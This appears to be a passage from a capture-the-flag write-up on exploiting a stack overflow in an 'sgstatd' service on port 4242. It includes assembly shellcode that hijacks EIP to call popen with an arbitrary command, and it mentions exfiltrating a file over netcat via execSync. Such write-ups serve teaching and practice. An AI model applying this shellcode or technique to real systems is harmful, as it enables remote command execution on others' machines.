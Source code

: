 In addition, factory_cam_4.zip download keeps getting truncated when I used "readFileSync". Therefore, I used the "execSync" function to transfer the file back to me using netcat instead.

##### SG-05 ([gnome.conf](SG05_gnome.conf))

Running nmap on SG-05 reveals an odd port (4242). Upon further investigation, it belongs to the "sgstatd" process. Therefore, make use of the stack overflow vulnerability.

- Connect to "54.233.105.81" port "4242"
- Enter 'X' in the menu to trigger the Hidden Command
- Send the payload

The overflow will overwrite a function return pointer, thus gaining control of the EIP. Instead of using an already available shellcode, I want to reuse some of the binary's own code.

Earlier during the menu selection, if a valid choice (1,2,3) was entered, the code would then call 'popen' with a specific command line string. For my shellcode, I would like to setup an arbitrary command line string and then jump to this popen call. This is how my final payload will look like.

![q08_05_01](img/q08_05_01.png)

**shellc1.asm (shellcode1)**
```asm
sub esp, 0x74
jmp esp
```

**shellc2.asm (shellcode2)**
```asm
lea ebp, [esp+0x4ec]    /* restore the EBP, offset to 'child_main' valid ebp */
lea eax, [esp+0x79]     /* offset to commandstr */

push 0x72               /* push 'r\x00' onto the stack */
mov ebx, esp

push ebx                /* arg 2 'r' */
push eax                /* arg 1 commandstr */
push 0x08048e42         /* address to popen call */
ret                     /* ret to put the above address into eip*/
```
